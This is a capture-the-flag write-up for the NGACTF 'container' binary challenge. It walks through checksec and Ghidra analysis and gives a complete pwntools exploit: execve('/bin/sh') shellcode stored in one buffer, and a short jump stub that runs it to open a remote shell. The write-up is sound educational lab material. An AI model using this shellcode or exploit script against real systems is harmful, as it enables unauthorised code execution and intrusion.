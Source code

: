 This is a writeup for the [NGACTF](https://nicerc.org/events/nga-capture-the-flag/) challenge *container*.
For this challenge the only file provided is an executiable binary.
### Inital steps
The best idea is to first get a basic idea of what security mesaures are already present in the binary so we know what is feasible and what is not. Running checksec will provide exactly the information we desire. 
>troy@troyscomputer$ checksec container
>    Arch:     i386-32-little
>    RELRO:    Partial RELRO
>    Stack:    No canary found
>    NX:       NX disabled
>    PIE:      PIE enabled
>    RWX:      Has RWX segments

We can see that there are no stack canarries (so buffer overflows will be possible) as well as NX is disabled so the stack is executiable. 
### Getting a closer look
As they didn't provide source code, let's get a better look at whats going on by firing up [Ghidra](https://ghidra-sre.org/)
```c
int main() {
  char buf [5];
  char buf60 [60];
  code buf10 [10];
  void* code;
  do {
    printf("Choose a command:\n1: Use premium storage container 1\n2: Use premium storage container2\n3: Use secondary storage box\n4: Run the contents of your premium storage container\n>");
    fflush(stdout);
    fgets(buf,5,stdin);
    if (buf[0] == '1') {
      puts("This container provides 10 bytes of premium storage.");
      fflush(stdout);
      puts("A premium storage container allows you to run your content, too!");
      fflush(stdout);
      printf("Go ahead and store your content: ");
      fflush(stdout);
      fgets((char *)buf10,10,stdin);
    }
    if (buf[0] == '2') {
      printf("Sorry, but this container is already in use. You can use the premium storage incontainer1.");
      fflush(stdout);
    }
    if (buf[0] == '3') {
      puts("This storage box is for 50 bytes of extra content. You can\'t run it, but it won\'t takeup your premium storage space.");
      fflush(stdout);
      printf("Go ahead and store your content: ");
      fflush(stdout);
      fgets(buf60,50,stdin);
    }
    if (buf[0] == '4') {
      puts("Okay, I\'ll run the contents of your premium container!");
      fflush(stdout);
      code = buf10;
      (*(code *)code)();
    }
  } while( true );
}
```
The code looks pretty simple. It is contained entierly inside the main function which continually asks the user to pick an option that executes the desired function. Choosing "1" writes at most 10 bytes into buf10, "3" does the same for buf60, "2" does nothing for our purposes, and "4" *EXECUTES* buf10!
```c
puts("Okay, I\'ll run the contents of your premium container!");
fflush(stdout);
code = buf10;
(*(code *)code)();
```
Be sure to review [C function pointers](https://www.learn-c.org/en/Function_Pointers) if the syntax `(*(code *)code)();` looks *too* cryptic.
Great. All we need to do is select option 1, enter some x86 linux shellcode that gives a shell, select 4 to run our code, a shell pops up, and we get the flag!
[Shell Storm](http://shell-storm.org/shellcode/) is a great website that houses short snipits of machine code that do specific things. As this is a 32 bit linux executable we only want shellcode that for x86 linux.
[This shellcode](http://shell-storm.org/shellcode/files/shellcode-752.php) is perferect for our needs. It is equilivant to execve("/bin/sh") and happens to be nice and short at 21 bytes. Unfourtantly this is too long for buf10 because `fgets((char *)buf10,10,stdin);` will copy at most 9 characters into buf10 (don't forget the null-byte). However we can put the longer shell code into the bigger buffer and put code that simply jumps to the larger buffer into the 10 byte buffer.
The disassembly in Ghidra before the fgets call will tell us that the 60 byte buffer always starts 0x52 bytes below EBP.
```
LEA        EAX=>buf60,[EBP -0x52]
PUSH       EAX
CALL       fgets
```
The code we need will have to jump to EBP -0x52 in order to invoke the 21 byte shellcode there. With the help of [this website](https://defuse.ca/online-x86-assembler.htm) creating the machine code is easy.
```
mov    eax,ebp
sub    eax,0x52
jmp    eax
```
This assembler copies the stack base pointer (EBP) into eax then subtracts 0x52 (now eax points to the 60 byte buffer), finally the last instruction jumps there and starts executing our shellcode.
Clicking assemble gives us "\x89\xE8\x83\xE8\x52\xFF\xE0", the actual bytes of the machine code which will be executed by `(*(code *)code)();`
### Creating the exploit

Using pwn tools we can easily create a connect script the connects to their server and gives it our juicy code. The script is as easy as defining some constants and importing pwn tools,
```python
from pwn import *
shell = "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"

jmp60 = "\x89\xE8\x83\xE8\x52\xFF\xE0"
```
Connectint to the remote server and waiting for the prompt,
```python
r = remote("golf.virginiacyberrange.net", 40149)
r.recvuntil(">")
```
Choosing 1 and uploading the `jmp EBP-0x52` code
```python
r.sendline("1")
r.recvuntil("Go ahead and store your content:")
r.sendline(jmp60)
```
Choosing 3 and sending the shellcode,
```python
r.recvuntil(">")
r.sendline("3")
r.recvuntil("Go ahead and store your content:")
r.sendline(shell)
```
And selecting 4 to run our jmp + shellcode:
```python
r.recvuntil(">")
r.sendline("4")
print(r.recvline())
r.interactive()
```
A sample run:
```
troy@troyscomputer$ python maker.py
[+] Opening connection to golf.virginiacyberrange.net on port 40149: Done
Okay, I'll run the contents of your premium container!

[*] Switching to interactive mode
$ ls
bin
container
dev
flag
lib
lib32
lib64
$ cat flag
flag{ju5t_4_h0p_sk1p_and_4_jmp_to_exploit}
```

Heres the entire script:
```python
from pwn import *
shell = "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"

jmp60 = "\x89\xE8\x83\xE8\x52\xFF\xE0"

r = remote("golf.virginiacyberrange.net", 40149)
r.recvuntil(">")

r.sendline("1")
r.recvuntil("Go ahead and store your content:")
r.sendline(jmp60)

r.recvuntil(">")
r.sendline("3")
r.recvuntil("Go ahead and store your content:")
r.sendline(shell)

r.recvuntil(">")
r.sendline("4")
print(r.recvline())
r.interactive()
```
